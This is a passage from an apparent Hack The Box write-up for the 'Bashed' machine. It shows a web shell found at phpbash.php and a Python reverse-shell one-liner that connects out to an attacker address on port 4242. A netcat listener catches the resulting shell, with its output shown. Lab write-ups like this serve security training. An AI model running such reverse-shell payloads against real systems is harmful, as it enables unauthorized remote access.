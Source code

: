 And what do you know, we see `phpbash.php`. Clicking on it directs me to `http://10.10.10.68/dev/phpbash.php`. 


<p align="center">
  <img src="{{ site.github.url }}/images/htb/bashed/image-20210615224205446.png" />
</p>

Seems like I'm in a web shell. I'm gonna go ahead and try running some commands like `whoami` or `ls`. 

<p align="center">
  <img src="{{ site.github.url }}/images/htb/bashed/image-20210615224234777.png" />
</p>


I could try just navigating around this web shell and see if I can find anything of interest, but I am not the biggest fan of doing everything in a web shell. I'd be happier if I got a shell through a Netcat listener rather than interacting with a web shell. To do that, I went ahead and referenced a way to get a reverse shell via `Python` from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python). The following command I ran within the web shell was this:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Before running this command, I started a Netcat listener on port 4242. 

```
nc -lvnp 4242
```

I ran this Python payload in the web shell and got a connection back on my Netcat listener.

```
root@kali-[~]nc -lvnp 4242                                         
listening on [any] 4242 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.68] 53098
www-data@bashed:/var/www/html/dev$ whoami && id
whoami && id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now that I have a shell on the system, I am going to upgrade my shell to an interactive TTY. An interactive TTY let's me do things such as `Ctrl-C` without my shell dying, run commands like `sudo` which may not otherwise work unless on a proper shell, etc. To do that I am going to do the following:

- Firstly, check if you have Python on your target host. For me, it's pretty obvious that I have Python on this host since that was the way I got a shell back. We can check if Python is on our host either way by simply typing in this command:

```
which python
```
